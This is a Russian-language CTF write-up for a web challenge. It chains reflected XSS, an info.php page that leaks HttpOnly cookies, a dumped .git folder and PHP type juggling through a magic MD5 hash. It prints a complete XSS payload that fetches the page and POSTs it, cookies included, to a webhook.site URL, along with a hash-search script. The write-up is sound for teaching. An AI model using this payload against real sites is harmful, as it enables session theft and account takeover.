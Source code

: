 # Рекрутер | hard | web

## Информация
> Год назад я завалил ЕГЭ по информатике, после чего мой учитель сказал, что я никогда не устроюсь работать программистом... но ведь я и не программист...

## Выдать участникам
[task.zip](public/task.zip)

## Описание
Необходимо реализовать XSS с использованием страницы info.php, а также подобрать необходимый пароль с помощью php type juggling

## Решение
На главной странице есть форма отправки резюме. Если попытаться что-то отправить, появится сообщение об ошибке с ссылкой на ТГ-бота, которому необходимо отправить ссылку на резюме. Этот ТГ-бот умеет переходить по ссылкам. Чтобы это проверить, можно отправить ему ссылку на вебхук.

![smb](solve/webhook.png)

На сайте отсутствует регистрация, и следовательно, нужно каким-то образом получить креденты для входа в аккаунт. Не трудно заметить, что сайт написан на PHP, поэтому, вероятно, сессия пользователя хранится в PHPSESSID. 
Далее можно заметить, что пользовательский ввод в параметре send отображается на странице. Следовательно, на сайте присутствует XSS-уязвимость.

![smb](solve/xssalert.png)

Следовательно, можно украсть сессию у HR'а, отправив ему ссылку, в которой пейлоад будет записан в параметр send. Однако на этом сайте у куки установлен флаг HttpOnly, который не позволяет получить куки с помощью document.cookie. 

Чтобы все-таки получить куки, необходимо воспользоваться страницей info.php, на которой для каждого пользователя выводится множество значений, включая куки.

Итоговый пейлоад выглядит так:
```js
http://qookie.tech:30057/?send=<script>payload="fetch(%27http://qookie.tech:30057/info.php%27).then(resp=>resp.text()).then(data=>fetch(%27https://webhook.site/7e54f652-c2f3-41cd-9353-b1218b08fbce%27,{method:%27POST%27,body:data}))";window.open("http://qookie.tech:30057/?send=<svg%0Conload=eval(name)>",payload);</script>
```
![smb](solve/phpsessid.png)

Когда сессия получена, осталось только подменить её и получить доступ к аккаунту.

После входа в аккаунт HR'а нужно принять любого из подавших заявления кандидатов. Также требуется знать секретный код HR'а для этого действия. Следовательно, нужно продолжить анализировать приложение. Первым делом нужно пофаззить директории на сайте.

![smb](solve/dirsearch.png)

Можно заметить, что на сайте существует папка .git, в которой существует информация о прошлых коммитах приложения. Необходимо воспользоваться утилитой [GitTools](https://github.com/internetwache/GitTools/tree/master), которая позволяет сдампить всю нужную нам информацию. Далее через эту утилиту можно восстановить несколько прошлых коммитов этого приложения и понять логику проверки секретного кода HR'а.

![smb](solve/secret_code.png)

В глаза бросается уязвимость php type juggling, в которой нам необходимо подобрать такой код, хеш которого должен начинаться на 0e и состоять только из цифр. Это можно сделать на питоне или найти в гугле.

```python
import hashlib

for i in range(0, 1000000000000000):
  string_to_hash = str(i)
  md5_hash = hashlib.md5(string_to_hash.encode()).hexdigest()

  if md5_hash.startswith("0e") and md5_hash[2:].isdigit():
    print(f"Найдено число: {i}, хэш: {string_to_hash}|{md5_hash}")
    break
```

Далее необходимо вставить код и получить флаг.

## Флаг
`NQ20244ca76b6f7f63ab7a3e7491ecc2496f4929348bc67e563d90b89eb32febc8bd59`
